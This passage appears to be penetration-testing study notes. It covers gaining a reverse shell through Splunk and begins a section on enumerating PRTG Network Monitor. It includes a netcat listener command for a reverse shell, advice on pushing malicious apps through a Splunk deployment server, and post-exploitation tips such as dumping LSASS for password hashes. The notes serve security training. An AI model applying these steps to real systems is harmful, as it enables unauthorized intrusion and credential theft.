 ## 🧏 Listener Setup

```bash
sudo nc -lnvp 443
```

Expected output upon successful connection:

```powershell
PS C:\Windows\system32> whoami
nt authority\system
```

## 🧱 Persistence and Lateral Movement

* If the target is a **deployment server**, place your app in:

  ```
  $SPLUNK_HOME/etc/deployment-apps/
  ```
* Forwarders (especially Windows-based) **do not include Python**, so use **PowerShell** payloads for those.


## 🔐 Post-Exploitation Tips

* Enumerate registry, filesystem, memory for credentials
* Dump LSASS for password hashes
* Begin Active Directory enumeration

---

# PRTG Network Monitor

## 🔎 What is PRTG?

* Agentless network monitoring software by **Paessler**, released in 2003.
* Supports bandwidth, uptime, and device stats monitoring.
* Communicates via **ICMP, SNMP, WMI, NetFlow**, and **REST API**.
* Accessed via a web interface (AJAX) or desktop app (Windows/Linux/macOS).
* Used by over **300,000 users** worldwide.

## 🔍 Discovery & Enumeration

### 🔎 Nmap Scan Example

```bash
sudo nmap -sV -p- --open -T4 10.129.201.50
```

* PRTG service found on port `8080`:

  ```
  8080/tcp open http Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
  ```
